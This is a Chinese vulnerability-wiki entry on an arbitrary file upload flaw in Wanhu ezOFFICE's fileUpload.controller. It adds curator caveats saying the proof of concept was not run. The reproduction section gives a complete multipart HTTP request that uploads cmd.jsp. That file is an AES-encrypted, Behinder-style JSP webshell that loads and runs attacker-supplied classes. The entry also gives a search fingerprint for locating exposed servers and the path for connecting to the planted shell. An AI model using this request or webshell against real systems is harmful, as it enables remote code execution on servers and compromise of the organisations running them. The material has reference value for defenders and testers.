



# 万户ezOFFICE fileUpload.controller任意文件上传

## 条目说明

- 对象与具体问题：万户ezOFFICE；fileUpload.controller任意文件上传
- 版本、配置及部署条件：未给版本；JSP可执行目录
- 认证与权限前提：无凭证请求但未核实全局鉴权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 给完整multipart和落点模式，但随机文件名从响应提取过程依赖截图
- 代码块误标php而为HTTP/JSP；用文件上传即取得权限表述缺执行证据文本

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

万户OA fileUpload.controller 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

### 漏洞影响

```
万户OA
```

### 网络测绘

```
app="万户网络-ezOFFICE"
```

### 漏洞复现

产品页面



发送请求包上传文件

```http
POST /defaultroot/upload/fileUpload.controller HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Length: 773

--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Disposition: form-data; name="file"; filename="cmd.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*......tas9er*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0--
```

> 请求长度说明：原资料 Content-Length 为 773；保留原始标头；其数值未据实际请求体重新计算或验证。



使用冰蝎连接木马 **/defaultroot/upload/html/xxxxxxxxxx.jsp**



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
